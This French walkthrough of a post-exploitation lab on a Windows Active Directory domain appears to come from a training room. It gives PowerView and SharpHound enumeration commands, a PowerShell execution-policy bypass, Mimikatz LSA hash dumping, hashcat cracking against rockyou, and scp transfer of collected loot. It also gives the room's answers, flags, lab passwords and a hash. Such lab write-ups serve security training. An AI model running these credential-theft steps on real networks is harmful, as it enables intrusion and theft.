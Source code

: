 ## Post-Exploitation

Utiliser SSH pour se connecter avec la machine Windows Server 1.1.

#### Powerview :

Une fois sur la machine, lancer le PowerShell avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

PowerView est un outil de reconnaissance que qu'il faut utiliser avec beaucoup de précautions. Il écrit en powerShell. Le script PowerView.ps1 contient un certain nombre de fonctions que l'on peut utiliser pour énumérer le domaine.
Le lancer :
```console
PS C:\Users\Administrator>. .\Downloads\PowerView.ps
```

Code source : https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Afin de visualiser toutes les fonctions fournies par le script voici une astuce :
```console
PS C:\Users\kreese\Documents> $currentFunctions = Get-ChildItem function:
PS C:\Users\kreese\Documents> . .\PowerView.ps1
PS C:\Users\kreese\Documents> $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
PS C:\Users\kreese\Documents> $scriptFunctions | Format-Wide -Column 4
```

Informations générales au sujet du domaine :
```console
Get-NetDomainController
```

Enumérer les Common Name des utilisateurs du domaine :
```console
Get-NetUser | select cn
```

Enumérer les groupes de type admin :
```console
Get-NetGroup -GroupName *admin*
```

Quel est le dossier partagé qui n'est pas configuré en tant que tel par défaut ? Utiliser la commande Invoke-ShareFinder.
```console
Share
```

Quel système d'exploitation s'exécute à l'intérieur du réseau en plus de Windows Server 2019 ?
```console
Get-NetComputer -fulldata | select operatingsystem
```

```console
Windows 10 Enterprise Evaluation
```

Un flag est caché parmi les utilisateurs. Trouvez le.
```console
POST{P0W3RV13W_FTW}
```

---

#### Bloodhound :

<p align="center">
  <img src="https://i.imgur.com/BAT2ZAH.png" />
</p>

BloodHound est un outil permettant de cartographier un environnement Active Directory en le représentant sous forme de graphe.

Installer Neo4j :
```console
$ sudo apt-get install neo4j
```
Vérifier la version :
```console
$ neo4j --version
```

Lancer Neo4j et vérifier que le service est accessible via le browser :
```console
$ neo4j console
```

<p align="center">
  <img src="https://pencer.io/assets/images/2020-06-09-14-53-59.png" />
</p>

Installer Bloodhound :
```console
$ sudo apt-get install bloodhound
```

Une fois sur la machine Windows, lancer le PowerView avec l'option -ep bypass :
```console
powershell -ep bypass
```

SharpHound est le collecteur de données officiel de BloodHound. Il est écrit en C# et utilise des fonctions API Windows natives et des fonctions d'espace de noms LDAP pour collecter des données à partir de contrôleurs de domaine.<br/>
Le lancer :
```console
. .\Downloads\SharpHound.ps1
```

```console
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

Transférer l'archive générée vers votre machine linux d'attaque. Utiliser scp.

Exemple : scp username@IP_of_windows_machine:/C:/Users/Anshul/Desktop/myfile.zip /home/ubuntu/myfile.zip

Une fois sur la machine Kali Linux charger le fichier zip avec Bloodhound pour avoir la cartographie du domaine de la machine cible.<br/>
Utiliser les crédentials neo4j/neo4j pour se connecter.

<p align="center">
  <img src="https://i.imgur.com/thfZUOy.png" />
</p>

Quel service est-il également un domain admin ?
```console
sqlservice
```

Quels sont les deux utilsateurs Kerberos ?
```console
sqlservice, krbtgt
```

---

#### Mimikatz :

Lancer Mimikatz :

```console
PS C:\Users\Administrator> cd .\Downloads\
PS C:\Users\Administrator\Downloads> .\mimikatz.exe
```

Vérifier que la sortie est "Privilege '20' ok" : Cela garantit que vous exécutez mimikatz en tant qu'administrateur.
```console
mimikatz # privilege::debug
```

Dumper les hashes :
```console
mimikatz # lsadump::lsa /patch
```

```console
$ locate rockyou.txt$ 
$ cat hashes.txt
$ hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

Quel est le mot de passe de la Machine1 ?
```console
Password1
```

Quel est le hash de la Machine2 ?
```console
c39f2beb3d2ec06a62cb887fb391dee0
```

---

#### Server Manager :

Se connecter à la machine Windows en Remote Desktop Protocol avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

```console
$ rdesktop -u SG ADRESSE_IP
```

<p align="center">
  <img src="https://cdn.dlcompare.com/game_tetiere/upload/gameimage/file/43698.png" />
</p>

Quel outil permet des tracer les evénements ?
```console
event viewer
```

Quel est le mot de passe du service SQL ? Regarder la description.
```console
MYpassword123#
```
